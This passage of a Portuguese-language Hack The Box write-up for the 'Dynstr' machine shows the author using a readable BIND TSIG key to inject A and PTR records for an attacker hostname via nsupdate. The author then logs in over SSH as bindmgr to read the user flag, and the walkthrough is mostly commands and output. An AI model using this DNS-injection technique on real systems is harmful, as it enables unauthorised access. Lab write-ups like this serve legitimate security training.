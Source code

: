 ```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
zone dyna.htb
update delete attacker.infra.dyna.htb
update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
update failed: REFUSED
```

- Após alguma pesquisa, encontrei que o status REFUSED poderia ocorrer se utilizasse uma chave inválida e, validando o diretório onde a chave `ddns.key` está localizada, encontrei outros dois arquivos (conforme abaixo) que poderiam ser utilizados, para o qual o `infra.key` retornou o sucesso esperado, embora ainda não tenha conseguido me conectar via SSH

```bash
www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
-rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
-rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
-rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
```

- Com algum troubleshooting adicional notei que a partir do servidor DNS era capaz de resolver o nome `attacker.infra.dyna.htb` mas a busca a reversa, a partir do endereço IP não era possível. Para contornar isso, incluí no comando de `nsupdate` as instruções necessárias para também incluir o registro do tipo PTR no DNS. Um ponto crucial que tive que fazer troubleshoot foi que entre as entradas A e PTR **deve existir uma linha em branco**, caso contrário o update falhará.

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
update add attacker.infra.dyna.htb 30 A 10.10.10.10
send

update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
www-data@dynstr:/dev/shm$
```

- Após os devidos ajustes, fui capaz de me conectar com a conta `bindmgr` via SSH e ler o conteúdo do arquivo `user.txt`

```bash
bindmgr@dynstr:~$ ls -la
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
bindmgr@dynstr:~$ cat use
cat: use: No such file or directory
bindmgr@dynstr:~$ cat user.txt
<redacted>
```
